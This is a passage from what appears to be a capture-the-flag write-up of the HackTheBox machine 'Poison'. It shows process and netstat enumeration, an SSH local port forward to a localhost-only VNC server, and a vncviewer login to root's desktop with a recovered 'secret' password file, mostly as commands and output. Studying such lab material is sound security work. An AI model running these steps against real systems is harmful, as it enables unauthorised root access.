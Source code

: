 ```bash
╔══════════╣ Running processes (cleaned)
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#processes
<SNIP>
root    529  0.0  0.9  23620  8868 v0- I    13:44    0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
<SNIP>


╔══════════╣ Users with console
charix:*:1001:1001:charix:/home/charix:/bin/csh                            
root:*:0:0:Charlie &:/root:/bin/csh
```

It seems that VNC server is running.

```bash
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.6.54728       ESTABLISHED
tcp4       0     44 10.10.10.84.22         10.10.14.6.42102       ESTABLISHED
tcp4       0      0 10.10.10.84.15913      10.10.14.6.9000        CLOSE_WAIT
tcp4       0      0 10.10.10.84.80         10.10.14.6.52084       CLOSE_WAIT
tcp4       0      0 10.10.10.84.49930      10.10.14.6.9000        CLOSE_WAIT
tcp4       0      0 10.10.10.84.80         10.10.14.6.35364       CLOSE_WAIT
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*     
```

Here I can find that port 5901 is open.

Let's open a SSH Local Port forwarding to connect to this from kali.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh -L 5901:localhost:5901 charix@10.10.10.84
```

Then, I can open a vnc window using the `secret`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ vncviewer 127.0.0.1:5901 -passwd secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

